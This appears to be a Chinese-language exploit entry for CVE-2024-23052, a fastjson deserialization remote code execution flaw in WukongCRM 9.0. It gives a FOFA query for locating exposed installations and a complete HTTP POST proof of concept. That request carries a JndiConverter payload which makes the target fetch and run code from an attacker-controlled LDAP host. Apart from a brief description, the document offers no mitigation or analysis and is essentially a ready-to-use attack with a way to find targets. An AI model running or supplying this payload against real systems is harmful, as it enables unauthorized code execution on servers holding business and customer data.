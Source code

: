 ## 悟空CRM9.0-fastjson远程代码执行漏洞(CVE-2024-23052)

WuKongOpenSource WukongCRM v.72crm_9.0.1_20191202 中的一个问题允许远程攻击者通过 fastjson 组件中的 parseObject() 函数执行任意代码。

## fofa

```
"悟空CRM"
```

## poc

```
POST /CrmCustomer/queryPageList HTTP/1.1
Host: localhost:8080
Content-Length: 115
Content-Type: application/json;charset=UTF-8
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Connection: close

{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://ip:port/Basic/Command/calc"}"
```

![image-20240607170803103](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406071708172.png)